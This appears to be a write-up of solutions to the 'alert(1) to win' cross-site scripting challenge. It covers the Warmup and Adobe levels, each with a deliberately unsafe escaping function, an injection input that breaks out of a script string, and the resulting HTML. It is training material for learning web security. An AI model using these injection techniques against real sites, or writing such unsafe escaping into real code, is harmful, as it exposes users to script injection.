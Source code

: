 # alert(1) to win

[alf.nu/alert(1)](<https://alf.nu/alert(1)>)

> The code below generates HTML in an unsafe way. Prove it by calling `alert(1)`.

## Warmup

```js
function escape(s) {
  return '<script>console.log("' + s + '");</script>';
}
```

### Input (12)

```
",alert(1),"
```

### Output

```html
<script>console.log("",alert(1),"");</script>
```

## Adobe

```js
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

### Input (14)

```
\",alert(1))//
```

### Output

```html
<script>console.log("\\",alert(1))//");</script>
```
